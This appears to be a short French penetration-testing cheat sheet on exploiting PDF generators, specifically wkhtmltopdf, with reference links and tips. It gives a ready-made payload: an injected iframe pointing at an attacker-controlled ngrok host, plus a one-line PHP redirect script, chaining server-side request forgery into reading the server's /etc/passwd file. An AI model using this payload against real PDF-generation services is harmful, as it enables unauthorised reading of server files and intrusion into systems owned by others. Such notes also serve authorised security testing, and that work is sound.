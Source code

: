# Exploitation de PDF

> Tips pour l'exploitation des générateurs de PDF



### 1. wkhtmltopdf

> Liens très intéressants :
>
> - http://hassankhanyusufzai.com/SSRF-to-LFI/
> - https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/
> - https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570
> - https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent

- Tenter d'envoyer une URL pingback (e.g. collaborateur burp) 

- Regarder l'user agent
- Si on a la technologie divulguée et si c'est `wkhtmltopdf`, probablement vulnérable aux SSRF (voir aux LFI via SSRF)
- Dans ce cas, utiliser ngrok
- Exemple de payload : `"><iframe src=http://ngrok/test.php?url=file:///etc/passwd></iframe>"` avec `test.php` : `<?php header('location:file://'.$_REQUEST['url']); ?>`